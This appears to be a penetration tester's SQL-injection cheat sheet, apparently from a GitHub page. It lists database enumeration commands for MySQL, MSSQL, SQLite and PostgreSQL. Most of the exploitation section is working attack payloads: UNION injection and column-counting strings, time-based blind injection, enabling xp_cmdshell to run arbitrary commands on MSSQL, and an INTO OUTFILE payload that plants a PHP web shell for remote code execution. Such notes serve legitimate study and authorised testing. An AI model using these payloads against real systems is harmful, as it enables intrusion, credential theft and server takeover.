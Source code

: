 ```yaml
---
layout: blank
---
```


https://pentestmonkey.net/category/cheat-sheet/sql-injection
### Enumeration/Discovery
- General fuzzing can help, but try to think from the developer's perspective when coming up with the example query
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes
### MySQL
- MariaDB is an open-source fork
- `mysql -u {username} -p -h {host IP} -P {port}`
- Specifying multiple parameters `SELECT user, passhash FROM mysql.user WHERE user = '{username}'`
- Enumeration:
	- List all databases: `SELECT * FROM information_schema.tables;`
	- Version: `SELECT @@version;`
	- Current user: `SELECT system_user();`

### MSSQL
- Database management built into Windows
- Command-line tool `SQLCMD` allows SQL queries through cmd
- Kali has `impacket-mssqlclient` to connect to MSSQL databases
	- `impacket-mssqlclient {username}@{host IP} -windows-auth`
		- After opening SQL terminal, can run EXECUTE commands using xp_cmdshell
			- This can be enabled by a user with permissions with 
			- `EXECUTE sp_configure 'show advanced options', 1; 
				- Showing advanced options is actually required to run xp_cmdshell
			- `RECONFIGURE;` 
			- `EXECUTE sp_configure 'xp_cmdshell', 1;`
			- `RECONFIGURE;`
			- Then, pass arbitrary commands with `EXECUTE xp_cmdshell 'whoami';`
	- `-windows-auth` forces the use of NTLM auth (rather than Kerberos)
- List all databases: 
	- `SELECT name FROM sys.databases;`
	- Then, `SELECT * FROM {database name from first query}.information_schema.tables;`
	- This returns the tables within that database, which we can query from with `SELECT * from {database name}.dbo.{table name}`
		- `dbo` is a table schema

### SQLite
- Use `sqlitebrowser` for viewing sqlite databases

### PostgreSQL
- Use `psql` for to connect to PostgreSQL databases

### SQL Exploitation
- Techniques:
	- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
	- Can use `IN` to inject arbitrary second command:
		- `' OR 1=1 IN (SELECT version()) -- //`
		- `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Enumerating tables
	- `' UNION SELECT table_name FROM information_schema.tables -- //`
	- `' UNION SELECT column_name FROM information_schema.columns WHERE table='{table_name} -- //`
- UNION-based Payloads
	- UNION query must include same number of columns as original
		- To find number of columns, use ORDER BY
			- `' ORDER BY 1 -- //`
			- Orders results by a specific column, so it will fail when selected column doesn't exist (iterate through column numbers to find max columns)
		- Can also do `' UNION SELECT null, null, null, ...` until no error
		- If we make the original input invalid, then pass a valid union select, we can see where each piece of data ends up
			- `9999 union select 1,2,3,4,5`
	- Data types need to be compatible between each column
	- E.g. `$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["input"]."%'";`
		- Used `' ORDER BY 5 -- //` and `' ORDER BY 6 -- //` to determine 5 columns
		- Thus payload becomes `%' UNION SELECT null, null, database(), user(), @@version -- //`, filling unneeded columns (including ID column 1) with null
- Blind injection
	- Can use booleans alongside sleep commands to verify existence of data/characters
		- `' AND IF (1=1, sleep(3), 'false') -- //` 
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
